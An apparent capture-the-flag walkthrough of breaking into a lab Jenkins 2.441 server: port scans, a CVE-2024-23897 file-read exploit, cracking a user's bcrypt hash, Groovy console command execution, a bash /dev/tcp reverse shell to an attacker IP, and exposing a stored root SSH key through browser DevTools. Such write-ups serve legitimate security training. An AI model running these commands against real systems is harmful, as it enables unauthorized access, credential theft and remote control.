## Testing

Start: 2026-11-12 18:30

IP:
```IP
10.129.230.220
```
---
ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.230.220 -oA network/nmap_ports
```



22/tcp SSH, 8080/tcp HTTP

service

```
sudo nmap -p22,8080 -Pn -n -vv --min-rate=5000 -sCV 10.129.230.220 -oA network/nmap_service
```



SSH: OpenSSH 8.9p1
OS: Ubuntu
HTTP: Jetty 10.0.18, Jenkins

HTTP 8080

Browsing: http://10.129.230.220:8080/



Jenkins dashboard 

("...an open source automation server which enables developers around the world to reliably build, test, and deploy their software" https://www.jenkins.io)

Jenkins 2.441 

Searching for "Jenkins 2.441 CVE"



https://www.exploit-db.com/exploits/51993

LFI leading to arbitrary system file read - CVE-2024-23897

Continue enumerating

Clicking on people



User: `jennifer`

Fuzzing

```
ffuf -u http://10.129.230.220:8080/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```



Lot of results. Save output to file (`x.txt)

Filter 

```
cat x.txt | cut -d',' -f1 > endpoints.txt
```


Back to CVE. Copy and save the script from Exploit DB: https://www.exploit-db.com/exploits/51993

Use

```
python3 exploit.py -u http://10.129.230.220:8080
```

Enter a shell to prompt files to read

Confirm with `/etc/passwd`



Works
Accounts: `www-data` (`/var/www/`),  `jenkins` (`/var/jenkins_home/`)

Searching for "Jenkins configuration files path" : https://stackoverflow.com/questions/6131114/where-does-jenkins-store-configuration-files-for-the-jobs-it-runs



`config.xml` stands out for being the main configuration
`secrets` stands out because may contain credentials

Jenkins root: `/var/jenkins_home/`
Config: `/var/jenkins_home/config.xml`



Returns, nothing stands out

Secrets`/var/jenkins_home/secrets`

`Could not read file.` Dont have permission to read


https://github.com/discover-devops/JenkinsMaven/blob/main/Jenkins_Default_COnfig_File.md mentions:
**User-specific configurations**: Located in `/var/lib/jenkins/users/`

Know user `jennifer`. `/var/jenkins_home/users/jennifer` -> not found

---
Hint: https://www.youtube.com/watch?v=jYCOIf9Fcmo - By setting up Jenkins locally can discover the structure from inside and see the file that specifies users: `<Jenkins_root>/users/users.xml`

---

Reading `/var/jenkins_home/users/users.xml`



Id for jennifer user: `jennifer_12108429903186576833`

Reading jennifer user `config.xml` file: `/var/jenkins_home/users/jennifer_12108429903186576833/config.xml`



At the end of the file can read a stored password hash (jbcrypt)

Hash: `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a`

Saved to `jennifer.hash`

Identify hash

```
hashcat jennifer.hash
```



- 3200   | `bcrypt $2*$, Blowfish (Unix)`
- 25600 | `bcrypt(md5($pass)) / bcryptmd5` 
- 25800 | `bcrypt(sha1($pass)) / bcryptsha1`   
- 28400 | `bcrypt(sha512($pass)) / bcryptsha512` 

```
hashcat jennifer.hash -m 3200 rockyou.txt
```



Cracked with mode `3200`. Plaintext password: `princess`

Credential: `jennifer:princess`

Checking reuse for root

```
ssh root@10.129.230.220
```

Not valid (as expected but worth trying)

Login to Jenkins



Searching for authenticated RCE on Jenkins find https://github.com/petercunha/jenkins-rce but affecting versions prior to target 2.441 

Going to > Manage Jenkins and scrolling to the bottom, observe function to execute custom scripts. Its using "Groovy script" https://www.groovy-lang.org/



Searching "how to execute commands with groovy script" for more information on how to use this programming language - https://stackoverflow.com/questions/159148/groovy-executing-shell-commands



```
println "<cmd>".execute().text
```

Confirm execution with `id` / `whoami` / ...

```
println "id".execute().text
```



RCE as `jenkins`

Reverse shell

```
bash -c 'bash -i &> /dev/tcp/<LOCAL_IP>/9001 0>&1'
```

Setup listener

```
nc -nlvp 9001
```

Execute

```
println "bash -c 'bash -i &> /dev/tcp/10.10.15.221/9001 0>&1'".execute().text
```

Not working

---
Hint - SSH key can be read by viewing the source code on Credentials > ...

---



Click on credential entry > Global credentials (unrestricted) > 1 (ID) root

Click Update



A private key is concealed for Confidentiality, but can be read with DevTools.

F12

1. Click "Pick elements" function
2. Click on `Concealed for Confidentiality`
3. Watch private key disclose in source code

